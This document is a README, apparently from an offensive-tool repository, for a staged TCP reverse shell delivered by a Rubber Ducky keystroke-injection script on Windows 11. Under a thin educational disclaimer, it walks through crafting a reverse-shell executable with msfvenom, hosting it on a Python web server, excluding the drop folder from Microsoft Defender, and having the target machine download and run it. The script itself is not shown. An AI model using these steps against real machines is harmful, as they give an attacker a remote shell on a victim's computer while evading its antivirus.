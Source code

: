 # README

This code does not promote or encourage any illegal activities. The content in this document is provided solely for
educational purposes and to create awareness.

# Staged TCP Reverse Shell with Rubber Ducky script within Windows Terminal

Since Microsoft pushed the latest 22H2 up-date for Windows 11 all Powershell reverse shell payloads have stopped working. Microsoft made changes to the way commandline tools are being opened. Everything will be opened in the new "Windows Terminal" and the "powershell -nop -noni -W hidden" commands are not working anymore.

This Reverse Shell script is tested on the latest Windows version and is working properly. 

Requirements:

- HTTP server to host the shell executable - Step 2
- The executable itself - Step 1

## 1 - craft malicious executable

I'm using a Staged Meterpreter TCP reverse shell executable. To craft one you can use "msfvenom" with the following command:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=`

Change the LHOST and LPORT to your own listener server.

## 2- ducky script and execute

Within your linux box navigate to the shell.exe location. I'm using a Python webserver to host the executable so I can use this URL in the script to download the exe file:

`python3 -m http.server 80`

Next, change the variables in the script:

- LINE 23 - 28 === VARIABLES
  Changing the paths is optional. I'm using C:\temp to create the folder and exclude it withint MS Defender. If you want a different path or executable name you can change them
- LINE 39 === URL
  This one is important because the target computers needs to download your crafted executable. Fill in the URL of your HTTP server and specify the folder/filename
